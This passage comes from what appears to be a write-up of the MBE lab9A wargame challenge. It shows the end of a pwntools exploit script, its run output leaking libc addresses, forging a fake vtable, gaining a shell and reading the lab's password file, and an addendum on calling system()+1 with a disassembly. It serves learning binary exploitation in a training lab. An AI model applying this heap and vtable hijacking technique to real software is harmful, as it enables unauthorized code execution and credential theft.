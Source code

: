         exploit(r)
    else:
        r = process(['/home/rh0gue/Documents/MBE/lab09/9A/lab9A'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight bash %}
rh0gue@vexillum:~/Documents/MBE/lab09/9A$ python solve.py warzone 9941
[*] For remote: solve.py HOST PORT
[+] Opening connection to warzone on port 9941: Done
[+] heap chunk found at 0x9151048
[+] libc base found at 0xb74fc000
[+] system@libc found at 0xb753c190
[+] binsh@libc found at 0xb765ca24
[+] gets@libc found at 0xb7560cd0
[+] fake_vtable crafted at 0x9151068!
[*] Switching to interactive mode
Item value: $ id
uid=1035(lab9end) gid=1036(lab9end) groups=1036(lab9end),1001(gameuser)
$ whoami
lab9end
$ cat /home/lab9end/.pass
1_d1dNt_3v3n_n33d_4_Hilti_DD350
$  
{% endhighlight %}

## ADDENDUM
After completing this challenge, Grazfather informed me of an easier way to solve this challenge.
Instead of calling `gets()` and writing `;/bin/sh\0` to the heap, we can actually directly just call `system()+1` so that we skip the first `push` instruction which will shift our entire stack down.
Basically, our actual `arg2`, which we control, will be treated as `arg1`, the actual `arg1` will be treated as the **SRA**, etc.

{% highlight python %}
gdb-peda$ pdisas __libc_system
Dump of assembler code for function __libc_system:
   0xf74de190 <+0>:     push   ebx
   0xf74de191 <+1>:     sub    esp,0x8
   0xf74de194 <+4>:     mov    eax,DWORD PTR [esp+0x10]
   0xf74de198 <+8>:     call   0xf75c494b <__x86.get_pc_thunk.bx>
{% endhighlight %} 

So instead of calling `system(<this ptr>);`, we will call `system("/bin/sh\0");`!

